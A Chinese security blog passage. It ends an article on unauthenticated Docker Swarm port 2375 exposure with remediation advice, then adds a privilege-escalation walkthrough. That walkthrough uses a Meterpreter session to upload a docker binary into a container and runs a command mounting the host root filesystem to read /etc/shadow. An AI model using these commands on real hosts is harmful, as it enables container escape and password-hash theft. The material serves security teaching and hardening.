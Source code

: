 目前在公网上暴露的2375端口还有不少，测了一些基本都可以利用。

但docker swarm更多的情况是用在企业内部，虽然在内网，也不意味着绝对安全，当边界被突破，就嘿嘿嘿了～

0x05 修复方案
注：因为本小节内容是看了文档后的个人理解，并且部分内容未进行实际验证，可能会错误，仅供参考！

如果你的2375端口是暴露在公网的，那么最简单的方式就是禁止外网访问或者设置白名单，因为根据官网介绍，swarm本来就不应该在公网中使用。

以上方法仅仅防止了外网访问，但如果本身已经在内网，对于已经撸进内网的攻击者，端口仍然处于可以直接访问的状态，那么有没一些防护方案呢？

为了找到答案，特意看了下docker swarm的文档，Plan for Swarm in production 这篇文章提到了两种方案

第一种方法是使用TLS认证：Overview Swarm with TLS 和 Configure Docker Swarm for TLS这两篇文档，说的是配置好TLS后，Docker CLI 在发送命令到docker daemon之前，会首先发送它的证书，如果证书是由daemon信任的CA所签名的，才可以继续执行，官网图如下： 
​然而在我对公网中使用TLS的docker remote api（使用2376端口）测试中发现，即使没有证书，Docker CLI仍然可以正常访问，这里我也拿docker python api写了脚本，设置不验证证书有效性，也同样可以访问。

因为这我没有具体配置过TLS，只能根据以上测试结果推测，走TLS认证，只能防止MITM 攻击，还是无法解决端口未授权访问的问题。

第二种方法是网络访问控制(Network access control)：文档中列出了 Swarm manager，Swarm nodes 等用到的端口，告诉你要配置合理的访问规则。文档中还提到了这么一段话
For added security you can configure the ephemeral port rules to only allow connections from interfaces on known Swarm devices.

大概意思是只允许信任的swarm devices之间通信。

理想情况就是docker 节点的2375端口只允许swarm manager来访问，但因为swarm manager可能会有多个，就需要配置多条规则，维护起来可能会具有一定复杂度，但只要swarm manager所在机器不被撸，就可以保证docker 节点的2375端口不被未授权访问。当然，这里还需要结合TLS一起使用。

总结来说就是，不要将端口直接暴露在公网，内网中使用需要设置严格的访问规则，并使用TLS。

0x06 瞎扯
如果你仔细阅读了docker swarm的文档，你就会发现除了2375端口，还有其他一些端口也存在相同的问题，这里就不一一的列出了。

本文主要说的是docker swarm，但是只要是会导致端口暴露的，都会存在问题，也许有一些使用者会因为某些原因，把端口配置成功公网访问，或者有另一个”swarm”呢？

还有想说的是，一个新的东西出来，用户和开发者更多关注的是其功能和便利性，而忽略了存在的安全性问题，之后还会有更多的 “docker remote api” 出现，谁将会是下一个呢？


>http://www.hacksec.cn/Privilege-upgrade/294.html



#privilege

我们将通过滥用容器内可用的docker socket来提权。由于docker在宿主机上是以root身份运行的，因此它也具有root权限。我们可以滥用它来执行多项操作。例如，使用–privileged选项可以为我们提供许多扩展功能，以下是从docker官方文档中提取的解释文本：

默认情况下，Docker的容器是没有特权的，例如不能在容器中再启动一个容器。这是因为默认情况下容器是不能访问任何其它设备的。但是通过”privileged”，容器就拥有了访问任何其它设备的权限。当操作者执行docker run –privileged时，Docker将拥有访问主机所有设备的权限，同时Docker也会在apparmor或者selinux做一些设置，使容器可以容易的访问那些运行在容器外部的设备。

你可以使用–device选项访问设备。但在本示例中，我将映射toor文件系统 (/) 到容器中并访问它。

由于此容器中没有docker客户端，因此下一步我们要做的就是在目标容器中设置docker客户端及其依赖项。你只需运行以下命令，即可完成所有这些操作。
```
upload /docker /docker upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7 chmod 777 /docker chmod +x /docker
meterpreter > upload /docker /docker [*] uploading : /docker -> /docker [*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker [*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker [*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker [*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker [*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker [*] uploaded : /docker -> /docker meterpreter > upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7 [*] uploading : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7 [*] Uploaded -1.00 B of 38.47 KiB (-0.0%): /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7 [*] uploaded : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7 meterpreter > chmod 777 /docker meterpreter > chmod +x /docker meterpreter >
```
现在，我们就可以使用docker来访问宿主机上的文件系统了。
```
execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow"
```
我们来转储下本地用户的哈希，输出结果如下：